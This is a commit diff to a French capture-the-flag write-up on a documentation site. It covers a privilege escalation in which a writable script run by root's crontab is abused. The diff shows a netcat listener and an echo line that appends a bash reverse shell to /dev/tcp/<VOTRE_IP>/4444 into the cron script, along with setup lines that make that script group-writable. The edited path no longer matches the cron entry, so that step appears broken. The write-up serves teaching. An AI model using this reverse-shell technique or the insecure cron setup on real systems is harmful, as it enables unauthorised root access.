

Before and after one commit to CryptAbyss-2026/Write-ups, an MkDocs documentation site: the page built from docs/Systeme/writeup_CronTab_HERALD-7_v2.md, in a window 1280 px wide and 900 px high, scrolled down 1534 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update writeup_CronTab_HERALD-7_v2.md

````diff
--- a/docs/Systeme/writeup_CronTab_HERALD-7_v2.md
+++ b/docs/Systeme/writeup_CronTab_HERALD-7_v2.md
@@ -86,6 +86,10 @@ run_as       = root
 CONF
 chown root:operative /opt/.herald/system.conf
 chmod 640 /opt/.herald/system.conf
+
+
+chown root:herald /opt/.scripts/patrol.sh
+chmod 770 /opt/.scripts/patrol.sh
 
 # Entree crontab
 echo "* * * * * root /opt/.scripts/patrol.sh" >> /etc/crontab
@@ -244,7 +248,7 @@ nc -lvnp 4444
 **Sur la machine victime (en tant que scheduler) :**
 
 ```bash
-echo "bash -i >& /dev/tcp/<VOTRE_IP>/4444 0>&1" >> /opt/.scripts/patrol.sh
+echo "bash -i >& /dev/tcp/<VOTRE_IP>/4444 0>&1" >> /opt/scripts/patrol.sh
 ```
 
 Moins d'une minute plus tard, le crontab execute le script modifie et envoie un reverse shell root.
````
